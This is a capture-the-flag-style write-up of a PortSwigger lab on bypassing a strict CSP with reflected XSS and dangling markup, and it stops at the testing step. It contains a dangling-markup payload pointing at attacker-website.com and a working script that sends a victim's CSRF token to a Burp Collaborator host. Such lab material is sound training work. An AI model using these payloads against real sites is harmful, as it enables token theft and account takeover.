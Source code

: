 # Lab: Reflected XSS protected by very strict CSP, with dangling markup attack

 This lab using a strict CSP that blocks outgoing requests to external web sites.

To solve the lab, first perform a cross-site scripting attack that bypasses the CSP and exfiltrates a simulated victim user's CSRF token using Burp Collaborator. You then need to change the simulated user's email address to hacker@evil-user.net.

You must label your vector with the word "Click" in order to induce the simulated user to click it. For example: 

```html
<a href="">Click me</a>
```
 You can log in to your own account using the following credentials: wiener:peter 
 
 ## Notes from portswigger
 
  Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible.

Suppose an application embeds attacker-controllable data into its responses in an unsafe way: 

```html
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```
Suppose also that the application does not filter or escape the > or " characters. An attacker can use the following syntax to break out of the quoted attribute value and the enclosing tag, and return to an HTML context: 

```html
">
```
In this situation, an attacker would naturally attempt to perform XSS. But suppose that a regular XSS attack is not possible, due to input filters, content security policy, or other obstacles. Here, it might still be possible to deliver a dangling markup injection attack using a payload like the following: 

```html
"><img src='//attacker-website.com?
```
 This payload creates an img tag and defines the start of a src attribute containing a URL on the attacker's server. Note that the attacker's payload doesn't close the src attribute, which is left "dangling". When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute. Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. Any non-alphanumeric characters, including newlines, will be URL-encoded.

The consequence of the attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data. Depending on the application's functionality, this might include CSRF tokens, email messages, or financial data.

Any attribute that makes an external request can be used for dangling markup.

This next lab is difficult to solve because all external requests are blocked. However, there are certain tags that allow you to store data and retrieve it from an external server later. Solving this lab might require user interaction. 

# Step 1 login as wiener:peter and intercept the change email request:

![image](https://user-images.githubusercontent.com/83407557/211396821-d9c1596e-e74e-45c0-976a-ca7536ff5b25.png)


See that there is a CSRF token

![image](https://user-images.githubusercontent.com/83407557/211396866-fe7c89ca-5474-4466-b596-d5381870c9e2.png)

# step 2 Create an exploit to steal CSRF token

Getting my collaborator URL:

![image](https://user-images.githubusercontent.com/83407557/211396178-8d5ad537-dbfb-4853-a345-695f49bf181d.png)

```
vvudmkpebqf3bg8jyxi5zcy5ww2nqde2.oastify.com
```
And the lab URL

```
https://0a0a009003b91385c79d6e6600b10009.web-security-academy.net/my-account
```

And the my exploit server URL:



I create the following payload to send to the victim:

```html
<script>
if(window.name) {
	new Image().src='//vvudmkpebqf3bg8jyxi5zcy5ww2nqde2.oastify.com?'+encodeURIComponent(window.name);
	} else {
		location = "https://0a0a009003b91385c79d6e6600b10009.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0a6c008b033813c8c7626d19014e004d.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

I then add this exploit to my exploit server:

![image](https://user-images.githubusercontent.com/83407557/211397627-836ed611-efdd-4379-90d4-79fd052be058.png)

# Step 3 Test exploit



